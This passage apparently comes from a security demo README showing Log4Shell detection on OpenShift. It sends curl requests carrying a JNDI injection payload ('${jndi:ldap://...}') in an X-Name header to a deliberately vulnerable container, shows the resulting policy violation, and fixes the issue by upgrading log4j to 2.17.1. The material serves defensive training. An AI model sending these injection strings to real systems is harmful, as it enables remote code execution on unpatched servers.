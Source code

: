 * Find the URL of the vulnerable container.

  ```sh
  export TARGET="https://$(oc get route settlement-app -n vulnerable-log4j -o jsonpath="{.spec.host}")/"
  ```

* Send the exploit

  ```sh
  curl "$TARGET" -H "X-Name: \${jndi:$EXPLOIT_URL}"
  ```

Then, show the violation:

* Open the **Violations** tab
* Filter by **Namespace**: `vulnerable-log4j`
* Go to the OpenShift console
* Select the `vulnerable-log4j` namespace
* Delete the pod
* In the Central, clear the Violation
* Drill down to **Platform Configuration** > **System policies**
* Open the **Shell Spawned by Java Application** policy
* Click the **Edit** button
* On the fourth tab, show the automatic enforcement options

### Remediation

```sh
podman build --pull-always -t $REGISTRY/vulnerable-cicd/vulnerable-log4j:latest remediation
podman run -it --rm --name test -p 8080:8080 $REGISTRY/vulnerable-cicd/vulnerable-log4j:latest
curl http://localhost:8080 -H 'X-Name: ${jndi:ldap://log4shell.huntress.com:1389/e597d75d-1851-4133-9a08-d5dfd7e04264}'
podman push $REGISTRY/vulnerable-cicd/vulnerable-log4j:latest
oc delete pods -l deployment=settlement-app -n vulnerable-log4j
```

The violation "Log4Shell" disappeared.

### Final fix by the developers

Start the CI/CD pipeline:

* In the OpenShift developer console, navigate to the `vulnerable-cicd` namespace.
* Drill down to **Pipelines**
* Select `vulnerable-log4j`
* Click **Actions** > **Start**

It fails because the current version is vulnerable.

Edit **src/pom.xml** and change `<log4j.version>2.14.0</log4j.version>` to `<log4j.version>2.17.1</log4j.version>`.

```sh
git add src/pom.xml
git commit -m 'fix log4shell cve'
git push
```
